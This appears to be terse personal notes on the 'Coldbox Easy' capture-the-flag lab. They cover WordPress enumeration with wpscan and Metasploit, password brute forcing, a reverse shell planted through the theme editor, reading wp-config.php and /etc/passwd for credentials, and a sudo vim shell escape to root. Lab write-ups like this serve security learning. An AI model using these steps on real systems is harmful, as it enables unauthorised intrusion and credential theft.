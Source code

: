 ```yaml
---
date: 2024-06-19
author: mrashco
title: Coldbox Easy
tags: ["", ""]
categories: 
series:
---
```


80:http,4512:ssh

http
	- wordpress
	- ffuf:/******/
	- users:****,****,*****

msfconsole -q
- setg RHOSTS
- use wordpress_ghost_scanner, wordpress_xmlrpc_dos, wordpress_xmlrpc_login, wordpress_pingback_access

wpscan --url http://$ip -e vp,vt,u

wpscan --url http://$ip --passwords $wordlist
- *****:*********
- Appearance > Editor > PHP Pentest Monkey Rev Shell

Initial Access www-data
- cat /var/www/html/wp-config.php
	- DB_NAME: ******, DB_USER:*****, DB_PASSWORD:************
- cat /etc/passwd/ 
- ssh c0ldd@$ip -p 4512
- cat user.txt

PrivEsc
- sudo -l
- sudo vim, :sh